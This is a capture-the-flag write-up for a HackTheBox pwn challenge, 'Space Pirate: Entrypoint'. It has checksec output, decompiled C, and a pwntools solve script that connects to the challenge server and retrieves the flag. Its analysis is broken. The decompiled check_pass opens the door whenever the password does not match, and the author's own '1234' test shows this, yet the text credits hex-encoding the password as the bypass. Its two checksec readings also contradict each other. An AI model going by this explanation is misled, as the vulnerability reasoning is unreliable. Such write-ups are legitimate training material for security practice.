

# CTF HackTheBox 2021 Cyber Apocalypse 2021 - Space Pirate: Entrypoint

Category: Pwn, Points: 300




Attached file [pwn_sp_entrypoint.zip](pwn_sp_entrypoint.zip)

# Space Pirate: Entrypoint Solution

Let's check the binary using ```checksec```:
```
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/Space_Pirate_Entrypoint]
└──╼ $ checksec Space Pirate Entrypoint
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```

[Full RELRO](https://ctf101.org/binary-exploitation/relocation-read-only/) (removes the ability to perform a "GOT overwrite" attack), No canary, and no PIE.

By running the binary we get:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/Space_Pirate_Entrypoint]
└──╼ $ ./sp_entrypoint 


			 Authentication System

▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓     ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓     ▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓     ▓▓▓▒▒▓▓▓▒▒▒▒▒▓▓▒░▒▓▓▓░░▓▓▓▓▓  ░  ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓     ▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓     ▓▓▓▒▒▓▓▓▒▒▒▒▒▓▓░░░▓▓▓▒░▓▓▓▓▓ ░   ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓     ▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓▒▒▒▒▒▓▓░░░▓▓▓░░▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓▒▒▒▒░▓▓░░░▓▓▓░░▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓▒▒▒▒▒▓▓▒░░▓▓▓░░▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓▒▒▒▒░▓▓░░░▓▓▓░ ▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓▒▒▒▒▒▓▓░░░▓▓▒░░▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓▓▓                                                        ▓▓▓▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓▒▒░░░▓▓░░░▓▓▒░ ▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓▒░░░▒▓▓░░░▓▓▒ ░▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓░░░░░▓▓░░░▓▓▓  ▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒░▓▓▓▒░░░░▓▓▒  ▓▓▒  ▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓     ▓▓▓▓▓▓▓▓▓▓▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒▓▓▓░▒░░░▓▓░  ▓▓▒  ▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓     ▓▓▓░▒▓▓▓░░░░░▓▓░  ▓▓▒  ▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓     ▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓     ▓▓▓▒░▓▓▓░░░░ ▓▓   ▓▓▒  ▓▓▓▓▓     ▓▓▓  ▓▓▓  ▓▓▓  ▓▓▓     ▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓     ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓     ▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓          ▓▓▓▓▓▓▓▓▓
▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓


1. Scan card 💳
2. Insert password ↪️
> 2
[*] Insert password: 1234

[+] Door opened, you can proceed with the passphrase: HTB{f4k3_fl4g_4_t35t1ng}
```

By decompiling the binary using [Ghidra](https://github.com/NationalSecurityAgency/ghidra) we can see the following ```main``` function:
```c
undefined8 main(void)
{
  long lVar1;
  long in_FS_OFFSET;
  long local_48;
  long *local_40;
  char local_38 [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  banner();
  local_48 = 0xdeadbeef;
  local_40 = &local_48;
  printf(&DAT_001025e0);
  lVar1 = read_num();
  if (lVar1 != 1) {
    if (lVar1 == 2) {
      check_pass();
    }
    printf(&DAT_00102668,&DAT_0010259a);
                    /* WARNING: Subroutine does not return */
    exit(0x1b39);
  }
  printf("\n[!] Scanning card.. Something is wrong!\n\nInsert card\'s serial number: ");
  read(0,local_38,0x1f);
  printf("\nYour card is: ");
  printf(local_38);
  if (local_48 == 0xdead1337) {
    open_door();
  }
  else {
    printf(&DAT_001026a0,&DAT_0010259a);
  }
  if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

Let's focous on option 2, As we can see it's called to ```check_pass()``` function where ```check_pass()``` code is:
```c
void check_pass(void)
{
  int iVar1;
  long in_FS_OFFSET;
  undefined8 local_28;
  undefined8 local_20;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_28 = 0;
  local_20 = 0;
  printf("[*] Insert password: ");
  read(0,&local_28,0xf);
  iVar1 = strncmp("0nlyTh30r1g1n4lCr3wM3mb3r5C4nP455",(char *)&local_28,0xf);
  if (iVar1 == 0) {
    printf(&DAT_001025a8,&DAT_0010259a);
                    /* WARNING: Subroutine does not return */
    exit(0x1b39);
  }
  open_door();
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

As we can see, If ```local_28``` is ```0nlyTh30r1g1n4lCr3wM3mb3r5C4nP455``` then ```open_door()``` function is called.

The problem is the ```read()``` function reads ```0xf``` charcacters and ```strncmp``` compare also ```0xf``` charcacters.

We can bypass it by convert ```0nlyTh30r1g1n4lCr3wM3mb3r5C4nP455``` string to hex using [CyberChef](https://gchq.github.io/CyberChef/#recipe=To_Hex('Space',0)&input=MG5seVRoMzByMWcxbjRsQ3Izd00zbWIzcjVDNG5QNDU1):
```c
306e6c7954683330723167316e346c437233774d336d6233723543346e50343535
```

Now we can send the hex string as the input to solve it.

Let's use the following ```python``` [./solve.py](./solve.py):
```python
from pwn import *

elf = ELF('./sp_entrypoint')
libc = elf.libc

if args.REMOTE:
    p = remote('46.101.27.51', 30797)
else:
    p = process(elf.path)

p.recvuntil('>')
p.sendline("2")
print(p.recvuntil(':'))
p.sendline("306e6c7954683330723167316e346c437233774d336d6233723543346e50343535")
p.interactive()
```

Run it:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/Space_Pirate_Entrypoint]
└──╼ $ python3 solve.py REMOTE
python3 exp_rop.py REMOTE
[*] '/ctf_htb/cyber_apocalypse/pwn/Space_Pirate_Entrypoint/sp_entrypoint'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'./glibc/'
[*] '/ctf_htb/cyber_apocalypse/pwn/Space_Pirate_Entrypoint/glibc/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 46.101.27.51 on port 30797: Done
b' [*] Insert password:'
[*] Switching to interactive mode
 
[+] Door opened, you can proceed with the passphrase: HTB{th3_g4t35_4r3_0p3n!}
[-] Invalid option! Intruder detected! 🚨 🚨
[*] Got EOF while reading in interactive
```

And we get the flag ```HTB{th3_g4t35_4r3_0p3n!}```.